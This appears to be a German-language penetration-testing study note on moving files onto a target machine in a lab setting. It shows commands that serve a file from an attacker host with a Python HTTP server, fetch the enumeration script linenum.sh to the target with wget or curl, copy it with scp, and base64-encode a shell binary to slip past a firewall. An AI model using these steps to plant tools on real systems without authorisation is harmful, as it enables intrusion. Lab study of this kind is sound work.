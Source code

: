 Um Daten übertragen zu können von einer Maschine zu einer anderen können wir folgendes machen:
# Using wget
Dafür müssen wir im Verzeichnis wo unsere Datei sich befindet einen `python HTTP Server` laufen lassen, dieser ist zu gleich unser listining server
```shell-session
cd /tmp   #Hier befindet sich die Datei
python3 -m http.server 8000
```

Nun können wir com Zielhost die Datei runterladen
```shell-session
wget http://10.10.14.1:8000/linenum.sh
```
wenn du kein wget hast, kannst du auch mit curl machen:
```shell-session
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

____

# Using SCP
**Voraussetzung wir haben ssh user credentials** 
```shell-session
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

___

# Using BASE64
Wenn du *nicht* Files transferieren kannst, weil zb eine Firewall da ist, kannst du deine Datei in BASE64 Encoden und dies dann senden, z.b. wollen wir eine **Datei** namens shell, `-w` sorgt dafür, dass keine Zeilenumbrüche beim decoden passiert, 
```shell-session
base64 shell -w 0
```
Du kannst nun einfach den output kopieren und beim Zielhost decoden
```shell-session
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

____

# Validierung File Transfer

Um das **File Format zu validieren**:
```shell-session
file dateiname
```

Um sicherzustellen, dass ein file, während des Transfers nicht verändert oder kaputt gegangen ist, kannst du die `md5 hash` zur validierung nehmen, hol dir bei beiden den Md5 hash und gucke ob sie gleich sind:
```shell-session
md5sum dateiname
```

